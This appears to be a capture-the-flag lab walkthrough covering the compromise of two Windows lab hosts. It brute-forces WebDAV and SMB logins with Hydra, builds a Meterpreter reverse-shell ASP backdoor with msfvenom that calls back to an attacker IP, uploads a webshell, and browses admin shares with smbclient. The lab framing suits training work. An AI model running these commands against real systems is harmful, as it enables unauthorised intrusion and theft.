

Before checking the first flag, let’s try to understand the target by running an nmap scan. This is to understand what services are running on the target system.

nmap -Pn -sV -sC -p- 10.3.26.83

- sV: `show services`
- \-Pn: `do not ping`
- \-p-: `all ports`
- \-sC: `scan with default script`

When you run the above command, the output will be given as follows.


As you can see, there are various services running on the target host
**flag 1**: “User ‘bob’ might not have chosen a strong password. Try common passwords. (target1.ine.local)”

So, when we read flag 1, we get the idea that we need to brute force the user “bob” to find the credentials, but what is the service?. Let’s try to access the website running on port 80, as we can see the HTTP service is running on port 80 according to the **nmap results**.


As we can see, the website is running on port 80, and this is a Microsoft IIS httpd 10.0 server running on port 80, which could be potentially vulnerable if the “**WebDAV**” service is not configured correctly.

## **1\. Vulnerable IIS service**

Let’s move to the “WebDAV” directory.

```
http://target1.ine.local/webdav
```

When you try to access the above directory, you will be asked to provide login credentials. So, this could be the service that **flag 1** was talking about. Let’s try to brute force the credentials with the given wordlists. For this purpose, I’m going to use Hydra.

hydra -l bob -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 10.3.26.83 http-get

- \-l: `username`
- \-P: `worldist (password)`

When you run the above command, you will see the password for “bob”.


Log in to the “WebDAV ”directory using the above credentials, and then you can find the **flag 1**.


Check other directories.


**Let’s move to find flag 2. Let’s check the flag.**

**flag 2: “Valuable files are often on the C: drive. Explore it thoroughly. (target1.ine.local)”**

## 2\. Access the system

To exploit the vulnerability, we need to use 2 tools,

*1.* ***davtest*** *\= used to check what file extensions are accepted by the server  
2.* ***cadaver*** *\= upload the vulnerable file to the target (IIS web server)*

Let’s check which files are accepted by the server using davtest.

davtest -auth bob:password_123321 -url http://10.3.26.83/webdav


As per the results given in davtest, for this purpose, let’s use the “.asp” extension. Now, we need to create a malicious file that allows us to obtain a reverse shell since we can access the “WebDav” directory. Use the following command to create a malicious file using **msfvenom**.

msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.40.3 LPORT=4444 -f asp > backdoor.asp

- \-p: `payload`
- LHOST: `localhost (ip address of the attack machine)`
- LPORT: `localport (a port on the attack machine)`
- \-f: `file type`

When you run the above command, a file called “backdoor.asp” will be generated with the given parameters. You can check the file by listing the contents of the current directory, whether it is created or not.



After that, we can upload the generated file using **Cadaver** to the “WebDAV” directory.

cadaver http://target1.ine.local/webdav/

After that, you have to provide the username and the password to access.

put backdoor.asp

We can upload our malicious file using the above command.


After the above process, you can clearly see the backdoor.asp file has been successfully uploaded to the “WebDAV” directory.


Now, what we have to do is start a listener from our attack machine. For this purpose, I’m going to use Metasploit.

Use the above commands, respectively.

use multi/handler

set LHOST eth1

set payload windows/meterpreter/reverse_tcp


So, as you can see, our listener is running on port 4444 from the attack machine’s network interface (localhost).

Now all we have to do is run our backdoor.asp file from the “WebDAV” directory, and then you will get the meterpreter session.


Second Way:

Valuable files are often on the C: drive. Explore it thoroughly. (target1.ine.local)  
    - `davtest -url http://{target1}/webdav/ -auth {username}:{password}`

davtest -url http://10.3.27.91/webdav/ -auth bob:password_123321


- Reveals that \`.asp\` files can be executed.  
        - \`cadaver http://{target1}\`  
            - Input username & password.  
        - \`cd /webdav/\`  
        - `put /usr/share/webshells/asp/webshell.asp`
    
- 
    
- \- Navigate to \`http://{target1}/webdav\` and select \`webshell.asp\`.
    
- 
    
- 
    
- \- `dir C:\`
    
-   
            - Lists the contents of the \`C:\\\` drive.  
            - Reveals \`flag2.txt\`.
    
-   
        - ^^type C:\\flag2.txt^^
    

**flag 3**: “SMB shares might contain hidden files. Check the available shares. (target2.ine.local)”

According to flag 3, let’s check the shares first and then check the hidden files.

## 3\. Enumerate shares in SMB


When we try to enumerate SMB shares using msfconsole without any credentials, there is no result.

So, let’s move to brute force SMB service and see what we can find.

hydra -L '/usr/share/metasploit-framework/data/wordlists/common_users.txt' -P '/usr/share/metasploit-framework/data/wordlists/unix_passwords.txt' smb://target2.ine.local

Results are shown below.


So, as we can see, we can find the administrator’s passwords. Let’s enumerate the shares using **smbclient**.

smbclient -L \\\\\\\\target2.ine.local\\\\ -U administrator

You need to provide the password as “pineapple”. After that, SMB shares will be shown.


Access the C$ share using the following command

smbclient -L \\\\\\\\target2.ine.local\\\\ -U administrator

Provide the password and list the content. You can find the **flag 3** among the other files. Use “***cat flag3.txt***” to obtain the hash.


Don’t close the SMB connection because **flag 4** is also located in the same share but different directory.
flag 4: “The Desktop directory might have what you’re looking for. Enumerate its contents. (target2.ine.local)”

The flag says that **flag 4** is located in a desktop directory.


Finally, we found all 4 flags.
